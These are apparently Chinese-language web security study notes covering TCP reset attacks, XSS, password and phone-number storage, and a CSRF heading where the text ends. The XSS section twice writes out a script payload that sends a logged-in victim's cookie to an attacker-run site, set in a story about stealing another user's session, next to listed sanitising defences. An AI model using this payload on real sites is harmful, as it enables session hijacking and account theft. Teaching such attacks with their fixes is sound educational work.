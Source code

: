## [TCP 重置攻击](https://mp.weixin.qq.com/s/crgraQv6qQ-aVJd9L2u1eg)

* 正常情况下，如果客户端收发现到达的报文段对于相关连接而言是不正确的，TCP 就会发送一个重置报文段，从而导致 TCP 连接的快速拆卸
* 在 TCP 重置攻击中，攻击者通过向通信的一方或双方发送伪造的消息，告诉它们立即断开连接，从而使通信双方连接中断
* 一般情况下这种攻击只对长连接有杀伤力

## XSS (Cross Site Script)跨站脚本攻击

* 恶意攻击者往 Web 页面里插入恶意 html 代码，当用户浏览该页之时，嵌入的恶意 html 代码会被执行，从而达到恶意用户的特殊 目的

* XSS 属于被动式的攻击，因为其被动且不好利用，所以许多人常呼略其危害性。但是随着前端技术的不断进步富客户端的应用越来越多，这方面的问题越来 越受关注

* 举个简单例子 ： 假如你现在是 sns 站点上一个用户，发布信息的功能存在漏洞可以执行 js 你在 此刻输入一个 恶意脚本，那么当前所有看到你新信息的人的浏览器都会执行这个脚本弹出提示框 （很爽吧 弹出广告 ：）），如果你做一些更为激进行为呢 后果难以想象。

* 在页面执行你想要的js.理论上，所有可输入的地方没有对输入数据进行处理的话，都会存在XSS漏洞，漏洞的危害取决于攻击代码的威力，攻击代码也不局限于script。

* DOM Based XSS漏洞

  - 获取cookies(对http-only没用)
    + Tom注册了该网站，并且知道了他的邮箱(或者其它能接收信息的联系方式)，我做一个超链接发给他，超链接地址为：http://www.a.com?content=<script>window.open(“www.b.com?param=”+document.cookie)</script>，当Tom点击这个链接的时候(假设他已经登录a.com)，浏览器就会直接打开b.com，并且把Tom在a.com中的cookie信息发送到b.com，b.com是我搭建的网站，当我的网站接收到该信息时，我就盗取了Tom在a.com的cookie信息，cookie信息中可能存有登录密码，攻击成功！

* Stored XSS漏洞

  - a.com可以发文章，我登录后在a.com中发布了一篇文章，文章中包含了恶意代码，<script>window.open(“www.b.com?param=”+document.cookie)</script>，保存文章。这时Tom和Jack看到了我发布的文章，当在查看我的文章时就都中招了，他们的cookie信息都发送到了我的服务器上，攻击成功！

* 控制用户的动作(发帖、私信什么的)

* 解决方案

  - htmlspecialchars函数
  - htmlentities函数
  - HTMLPurifier.auto.php插件
  - RemoveXss函数（百度可以查到）

## 储存用户数据

* 后端不应该以任何明文或可以转换回明文（如可逆的加密）的形式储存密码。由于储存的信息并不是明文，所以大多数网站的「找回密码」功能并不能真的告诉你密码，只能让你重新设置一次。
* MD5哈希:用户注册时，把他的密码做一次MD5运算储存起来；用户登录时，把他输入的密码做一次MD5运算，再验证是否和数据库里储存的一致。
  - 应付不了彩虹表的攻击方式:彩虹表就是把简单的数字密码组合（和各种常见密码）的哈希先尽可能的计算出来，这些明文和哈希结果的对应关系就是一张彩虹表
* 加盐哈希
  - 用户注册时，给他随机生成一段字符串，这段字符串就是盐（Salt）
  - 把用户注册输入的密码和盐拼接在一起，叫做加盐密码
  - 对加盐密码进行哈希，并把结果和盐都储存起来
  - 登陆时，先取出盐，再同样进行拼接、计算哈希，就能判断密码的合法性
* 手机号:只能用相对安全的做法，即先对手机号进行对称加密，再将加密结果储存在数据库里；使用时再用密钥解开。
  - 密钥不应该被保存在数据库里。如果数据库被拖库，那么些数据的安全性与明文无异。通常会将密钥以环境变量的形式放在服务器上。这时除非网站在被拖库的情况下同时被拿到服务器权限

## CSRF (Cross Site Request Forgery)跨站点伪造请求
